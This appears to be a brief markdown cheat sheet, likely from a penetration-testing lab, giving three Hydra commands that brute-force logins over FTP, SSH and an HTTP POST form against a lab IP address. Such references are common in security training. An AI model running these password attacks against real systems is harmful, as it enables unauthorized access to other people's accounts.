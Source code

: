 
### Basic command 

 
1. FTP Bruteforce

	```
	hydra -l user -P passlist.txt ftp://10.10.86.138
	```


2. SSH Bruteforce


	```
	﻿hydra -l <username> -P <full path to pass> 10.10.86.138 -t 4 ssh
	```

3. Bruteforce web credentials


```
	hydra -l <username> -P <wordlist> 10.10.86.138 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```
